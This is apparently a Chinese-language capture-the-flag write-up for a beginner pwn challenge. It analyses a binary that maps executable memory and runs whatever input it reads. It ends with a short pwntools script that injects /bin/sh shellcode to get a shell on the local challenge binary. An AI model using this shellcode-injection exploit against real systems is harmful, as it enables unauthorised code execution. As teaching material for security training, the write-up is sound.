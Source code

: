 # 简单的shellcode

- 作者：pn1fg
- 参考：-
- 难度：Normal
- 分类：Pwn
- 镜像：[svuctf-helloworld-2023/shellcode](https://ghcr.io/svuctf/svuctf-helloworld-2023/shellcode)
- 端口：70

# 题目描述

-

# 题目解析

- 源码：[shellcode.c](build/shellcode.c)
- 考点：写shellcode

`shellcode` 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 `shel`l。一般来说，shellcode 需要我们自己填充，要想执行`shellcode`，需要对应的 `binary`在运行时，`shellcode`所在的区域具有可执行权限。

______________________________________________________________________

#### 查看文件信息

查看文件类型：

```shell
>>> file shellcode
shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e4a67a1f629c4ad7e86b6fd9e87a1bceccf80f7d, for GNU/Linux 3.2.0, not stripped
```

这是一个64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=shellcode
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX 保护

#### 分析漏洞成因

反编译`vuln`函数

```c
void sym.vuln(void)

{
    code *pcVar1;
    ulong buf;

    pcVar1 = sym.imp.mmap(0, 0x400, 7, 0x22, 0, 0);
    sym.imp.puts("Please Send !!!!");
    sym.imp.read(0, pcVar1, 0x400);
    (*pcVar1)();
    return;
}
```

这个`mmap`函数可能大家都不太熟悉，可以去了解一下这个函数的作用

`mmap`函数在本题中的作用是，将`pcVar1`指针指向的区域中大小为 0x400 的内存赋予可读可写可执行的权限，`read`函数从标准输入读取 0x400 的数据存入刚刚指针指向的区域

所以本题的大致思路就是，通过`read`函数我们将一段`shellcode`写入内存中并且执行它从而拿到`shell`

#### 编写利用程序

[exp.py](writeup/exp.py):

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

io = process('./shellcode')

shellcode = asm(shellcraft.sh()) 

payload = flat([shellcode,])

io.sendlineafter(b'!\n',payload)

io.interactive()
```
